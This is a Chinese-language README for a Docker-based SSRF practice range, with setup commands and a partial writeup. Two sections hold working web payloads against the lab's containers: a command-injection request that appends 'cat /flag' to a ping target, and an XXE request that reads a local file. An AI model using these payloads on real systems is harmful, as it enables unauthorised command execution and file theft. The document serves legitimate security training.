



# ssrf-labs
一个ssrf的综合靶场，基于国光师傅的sqlsec/ssrf-vuls，重制了部分关卡，并且添加了完整的dockerfile和dockers-compose。

靶场的设计拓扑图：

  

后续应该还会加两个场景，我看国光师傅还有坑没填，看看这两天能不能帮忙填上ww


## Usage
clone 本项目，然后执行`docker-compose up -d`即可。
```
git clone https://github.com/ProbiusOfficial/ssrf-labs.git
cd ssrf-labs
docker-compose up -d
```
访问8080端口即可看到靶场页面。

## Writeup
对齐国光师傅的靶场 - [手把手带你用 SSRF 打穿内网](https://www.sqlsec.com/2021/05/ssrf.html)，

这里也提供了一份writeup，补充一些东西x

### 172.72.23.21-入口


### 172.72.23.22-CodeExec


### 172.72.23.23-SQLI


### 172.72.23.24-CommandExec


```
POST /ping.php HTTP/1.1
Host: 172.72.23.24
Content-Length: 28
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36 Edg/133.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://core.hello-ctf.com:8011/
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

target=1.1.1.1%3Bcat+%2Fflag
```



### 172.72.23.25-XXE

http探测源码后，从其中分析出发包形式（或者本地单独启动一个容器进行抓包构造）：

比如 修改



```
POST / HTTP/1.1
Host: 172.72.23.25
Content-Length: 168
Cache-Control: max-age=0
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36 Edg/133.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost/
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
sec-ch-ua: "Not(A:Brand";v="99", "Microsoft Edge";v="133", "Chromium";v="133"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-site: none
sec-fetch-mode: navigate
sec-fetch-user: ?1
sec-fetch-dest: document
Connection: close

<?xml version="1.0" encoding= "UTF-8"?><!DOCTYPE user [<!ENTITY xxe SYSTEM "file:///flag" >]><user>	<username>&xxe;</username>	<password>admin</password></user>

```


### 172.72.23.26-Tomcat


### 172.72.23.27-Redisunauth


### 172.72.23.28-Redisauth


### 172.72.23.29-MySQL


## 鸣谢

- [国光师傅：手把手带你用 SSRF 打穿内网](https://www.sqlsec.com/2021/05/ssrf.html)
- [Github：sqlsec/ssrf-vuls](https://github.com/sqlsec/ssrf-vuls)
- [Github：tarunkant/Gopherus](https://github.com/tarunkant/Gopherus)
- [Github：LS95/gopher-redis-auth](https://github.com/LS95/gopher-redis-auth)

## 开源许可证

- 本项目基于无许可证的原始仓库：https://github.com/sqlsec/ssrf-vuls
- 所有新增/修改的代码采用 MIT 许可证（详见 LICENSE 文件）
- 使用者需自行承担使用无许可证代码的风险


